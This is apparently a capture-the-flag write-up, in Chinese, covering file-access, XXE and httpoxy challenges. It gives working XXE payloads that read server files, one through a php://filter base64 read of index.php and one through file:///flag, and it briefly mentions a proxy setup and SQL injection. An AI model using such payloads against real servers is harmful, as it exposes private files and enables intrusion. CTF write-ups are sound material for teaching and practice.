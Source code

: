 # File Access
```
file://index.php
```

# XXE

讀取index.php檔案，發現 flag 不在裡面=3=
```
<!DOCTYPE root [
  <!ENTITY name SYSTEM
  "php://filter/read=convert.base64-encode/resource=/var/www/html/index.php"
  >
]>
<root>
    <result>&name;</result>
</root>
```
   
然後重讀題目發現....我眼殘 flag 在 /flag

```
<!DOCTYPE root [
  <!ENTITY name SYSTEM "file:///flag">
]>
<root>&name;</root>
```

# Bonus-httpoxy.py
這題一定要有 Proxy Server 而且要給外部訪問，可以利用手機網路，至少有實體IP   
不然AWS 或是其他 VPS 花下去，這題我把Linode 拿來用了...   

遇到一件事就是 Squid 架不起來，Google 了一下，放棄除錯改用 tinyproxy   
**然後就是SQL injection的開始**   

其實一開始用還用 id 遞增的方式下去跑 XDD   

